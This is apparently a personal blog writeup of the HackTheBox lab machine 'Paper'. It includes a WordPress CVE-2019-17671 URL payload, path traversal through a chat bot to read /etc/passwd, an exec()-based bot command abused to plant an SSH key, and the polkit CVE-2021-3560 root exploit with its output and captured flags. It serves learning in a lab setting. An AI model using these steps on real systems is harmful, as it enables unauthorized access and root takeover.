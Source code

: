 ```yaml
---
title: 'paper.htb'
date: 2022-06-24
description: 'Writeup for Paper, an easy HTB box with a tiny bit of code review.'
---
```


Paper is an easy HackTheBox machine created by [secnigma](https://secnigma.wordpress.com/). It showcases a Wordpress authentication bypass vulnerability, the tiniest bit of source code review, and a classic CVE -> Github -> Root scenario. It was only on putting together this writeup that I noticed that the exploit script I used was written none other than by the creator of the box themselves. They’ve actually written an interesting blog post on how they created Paper which you can find [here](https://secnigma.wordpress.com/2022/06/18/the-idea-behind-paper/).

## Enumeration
The initial Rustscan scan revealed ports 22, 80, and 443. Navigation to the machine’s IP in my web browser showed only a default CentOS landing page. Taking a closer look at the response headers sent back by the web server showed the unusual header of `x-backend-server: office.paper`. I set office.paper to resolve to the machine’s IP in my /etc/hosts file then navigated to it and found a Wordpress blog.

A wpscan scan showed a Wordpress version of 5.2.3 which is vulnerable to [CVE-2019-17671](https://nvd.nist.gov/vuln/detail/CVE-2019-17671).

## Foothold
CVE-2019-17671 is a vulnerability that allows the viewing of some usually private content by including the parameter static=1 in the request parameters. Using the payload `http://office.paper/?static=1ℴ=desc` I’m able to read some draft content which includes a reference to a “Secret Registration URL” at `http://chat.office.paper/register/8qozr226AhkCHZdyY`.

I add this subdomain to my /etc/hosts and navigate to the URL, where I’m able to create a Rocket Chat account and login to a Rocket Chat server. The main channel is read-only but scrolling through the chat history I find that the chat supports a Hubot integration. Two of the commands shown in this “recyclops” help command are the file command, to read a file, and the list command, to list out a directory’s contents.

I first try the command `recyclops file ../../../../etc/passwd` and confirm that this enables me to read whatever files on the system this bot has permission to view. 

Looking at the users in the /etc/passwd file, I see a user `dwight`. I check this user’s home directory and find the hubot’s config files. One of the script files picques my interest as it is named `run.js`. These are the file contents:

```javascript
// Description:
// Runs a command on hubot
// TOTAL VIOLATION of any and all security!
//
// Commands:
// hubot run <command> - runs a command on hubot host

module.exports = function(robot) {
    robot.respond("/RUN (.*)$/i", function(msg) {
        console.log(msg);
        var cmd = msg.match[1];
        msg.send("Running " + cmd);
        var exec = require('child_process').exec;
        exec(cmd, function(error, stdout, stderr) {
            if (error) {
                msg.send(error);
                msg.send(stderr);
            } else {
                msg.send(stdout);
            }
        });
    });
};
```

This code takes all output after a `recyclops run` command and passes it to Javascript’s exec() function, allowing for arbitrary command execution on the system. First, I check what user this bot is running as with `recyclops run id`. It’s running as `dwight`, perfect. Then, I use recyclops run `echo "<my ssh public key>" >> ~/.ssh/authorized_keys` to load my public key into the user’s authorized ssh keys file and am then able to login as the user dwight with ssh.

```text
$ ssh dwight@office.paper

<Wall Redacted for Brevity>

[dwight@paper ~]$ cat user.txt 
6440ce234ff1b51304992ace3c292bda
```

## Privilege Escalation(s)
Running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) quickly shows that the machine is vulnerable to [CVE-2021-3560](https://nvd.nist.gov/vuln/detail/CVE-2021-3560) which exploits a race-condition in the relationship between polkit and dbus. There’s a [wonderfully written article](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/) explaining this vulnerability and I definitely recommend giving it a read.

A quick google search finds me [this](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) exploit code. I load the script onto the machine and run it a couple times until it successfully creates a user with full sudo privileges.

```text
[dwight@paper ~]$ ./poc.sh -u=ori -p=beans -f=y

[!] Username set as : ori
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag '-f=y' specified.
[!] Vulnerability checking is DISABLED!
[!] Starting exploit...
[!] Inserting Username ori...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username ori  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - ori
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ 
```
I then login with that user and become root.

```text
$ ssh ori@office.paper
ori@office.paper's password: 

<Wall Redacted for Brevity>

[ori@paper ~]$ sudo bash
[sudo] password for ori: 
[root@paper ori]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper ori]# cat /root/root.txt
31c929df1a241a1d3b92bf8ac46fb819
```
